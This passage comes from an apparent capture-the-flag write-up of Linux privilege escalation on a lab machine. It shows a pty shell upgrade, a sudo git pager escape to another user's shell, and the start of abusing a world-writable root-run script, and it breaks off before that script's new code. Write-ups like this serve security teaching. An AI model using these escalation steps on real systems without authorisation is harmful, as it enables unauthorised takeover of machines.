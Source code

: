 We can run these commands as user `thirtytwo` and get access to `d4rckh`'s shell but before that we need to get into a `bash` shell which we get using a python command:

```
python -c 'import pty; pty.spawn("/bin/bash")'
thirtytwo@ubuntu-xenial:~$
```

Now, we can try to run the `git` command as `d4rckh`.

```
thirtytwo@ubuntu-xenial:~$ sudo -u d4rckh git -p help config

WARNING: terminal is not fully functional
		RETURN)!/bin/sh
!/bin/sh
$ whoami

d4rckh
```

We can again get a `bash` shell using the same python command used above for user `d4rckh`. In his directory we can see a python script named `cleanup.py` which can be executed as root. 

```
d4rckh@ubuntu-xenial:/home/d4rckh$ ls -la
total 16
drwxr-xr-x 2 d4rckh d4rckh 4096 Jul  5 21:35 .
drwxr-xr-x 5 root   root   4096 Jul  5 21:45 ..
-rwxrwxrwx 1 root   root      4 Sep 20 12:06 cleanup.py
-rw-r--r-- 1 d4rckh d4rckh   33 Jul  5 21:45 user.txt
```

We can modify the content of this file to run a command to store the root flag in tmp directory. First, we need to creat a blank file in `/tmp` and give access of that file to others as well.

```
d4rckh@ubuntu-xenial:/home/d4rckh$ cd /tmp
d4rckh@ubuntu-xenial:/tmp$ touch key

d4rckh@ubuntu-xenial:/tmp$ chmod 777 key

d4rckh@ubuntu-xenial:/tmp$ ls -la
total 28
drwxrwxrwt  7 root   root   4096 Sep 20 12:10 .
drwxr-xr-x 24 root   root   4096 Sep 20 10:28 ..
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .ICE-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .Test-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .X11-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .XIM-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .font-unix
-rwxrwxrwx  1 d4rckh d4rckh    0 Sep 20 12:10 key
```

 Now, we can change the code in `cleanup.py` as:

copying and pasting the following in the shell:
